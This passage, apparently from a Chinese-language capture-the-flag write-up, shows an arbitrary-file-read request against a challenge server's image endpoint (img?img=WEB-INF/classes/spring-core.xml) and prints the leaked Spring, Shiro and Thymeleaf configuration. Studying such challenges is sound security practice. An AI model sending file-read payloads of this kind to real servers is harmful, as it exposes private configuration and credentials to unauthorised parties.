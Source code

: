    然后其他的被waf过滤了
   读取web.xml中的其他配置文件

   http://116.85.37.131/6f0887622b5e34b5c9243f3ff42eb605/web/img?img=WEB-INF/classes/spring-core.xml

   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xmlns:p="http://www.springframework.org/schema/p"
   xmlns:aop="http://www.springframework.org/schema/aop"
   xmlns:context="http://www.springframework.org/schema/context"
   xmlns:jee="http://www.springframework.org/schema/jee"
   xmlns:tx="http://www.springframework.org/schema/tx"
   xsi:schemaLocation="http://www.springframework.org/schema/aop http://www.springframework.org/schema/aop/spring-aop-4.0.xsd
   http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans-4.0.xsd
   http://www.springframework.org/schema/context http://www.springframework.org/schema/context/spring-context-4.0.xsd
   http://www.springframework.org/schema/jee http://www.springframework.org/schema/jee/spring-jee-4.0.xsd
   http://www.springframework.org/schema/tx http://www.springframework.org/schema/tx/spring-tx-4.0.xsd">
     <import resource="classpath:spring-shiro.xml" />
     <!-- 声明自动为spring容器中那些配置@Aspectj切面的bean创建代理，织入切面 -->
     <aop:aspectj-autoproxy></aop:aspectj-autoproxy>
     <!-- 支持事物注解（@Transactional） -->
     <tx:annotation-driven/>
     <bean id="viewResolver" class="org.thymeleaf.spring4.view.ThymeleafViewResolver">
       <property name="order" value="1"/>
       <property name="characterEncoding" value="UTF-8"/>
       <property name="templateEngine" ref="templateEngine"/>
     </bean>
     <bean id="templateEngine" class="org.thymeleaf.spring4.SpringTemplateEngine">
       <property name="templateResolver" ref="templateResolver" />
     </bean>
     <bean id="templateResolver" class="org.thymeleaf.spring4.templateresolver.SpringResourceTemplateResolver">
       <property name="prefix" value="/WEB-INF/templates/"/>
       <property name="suffix" value=".html"/>
       <property name="templateMode" value="HTML5"/>
       <property name="cacheable" value="false"/>
       <property name="characterEncoding"  value="UTF-8" />
     </bean>
     <context:annotation-config />
     <context:component-scan base-package="com.ctf">
       <context:include-filter type="annotation" expression="org.springframework.stereotype.Service" />
       <context:include-filter type="annotation" expression="org.springframework.stereotype.Repository" />
     </context:component-scan>
   </beans>
   ```
